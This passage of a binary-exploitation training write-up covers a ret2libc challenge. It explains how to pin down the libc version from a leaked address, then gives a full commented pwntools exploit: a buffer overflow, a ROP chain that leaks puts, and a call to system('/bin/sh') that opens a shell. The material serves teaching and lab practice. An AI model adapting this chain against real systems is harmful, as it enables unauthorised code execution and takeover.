 In real life situation you are not probably using the same libc as the software dev, So to find out the libc version go to [libc.blukat.me](https://libc.blukat.me/).

So always the last 3 digits (hex) of the leak will be same. Use this as an advantage to select your libc version.

![](/images/pwn-train3/pwntraining3/pwntrain4.png)

Below is the commented solution. 

```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './ret2libc'
elf = ELF("./ret2libc")

# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)


# ./exploit.py GDB
gdbscript = '''
b* 0x00000000004011c7
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()

p.recvuntil("Are you in?") # recv the output sent by the program.
p.sendline(b"A"*0x60 + b"B"*8 + p64(0x0000000000401016) +  p64(0x000000000040122b) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym.main))
# filling the buffer and RBP + return instruction to tackle the alignment issues + pop RDI to fill it with address of the puts function. add main to return back to main function
p.recvline() # recv unwanted bytes.
leak_puts =hex( u64((p.recvline().rstrip()).ljust(8, b"\x00"))) # recv the puts function and strip the front and back, unpack it and store it as hex.

log.info("puts: "+str(leak_puts)) # make sure you get a address in the libc by logging it.

p.recvuntil("Are you in?") # recv output.
p.sendline(b"B"*0x60 + b"C"*8 + p64(0x000000000040122b) + p64(int(leak_puts, 16) + 0x13000a) + p64(int(leak_puts, 16)-0x32190))
# fill garbage in buffer and pop RDI to fill it with a pointer to "bin/sh" call system.

p.interactive()

```
